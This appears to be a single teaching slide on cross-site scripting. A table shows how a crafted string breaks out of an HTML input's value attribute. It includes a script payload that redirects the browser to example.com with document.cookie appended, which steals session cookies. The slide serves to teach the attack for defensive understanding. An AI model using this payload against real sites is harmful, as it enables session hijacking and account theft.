

# XSS
| HTML Code | Malicious String | Result |
| --- | --- | --- |
| <input value=“userInput”> | ><script> window.location='http://example.com/?cookie='+document.cookie </script><input value= | <input value=“> <script>window.location='http://example.com/?cookie='+document.cookie</script> <input value=”> |
16-Feb-16
15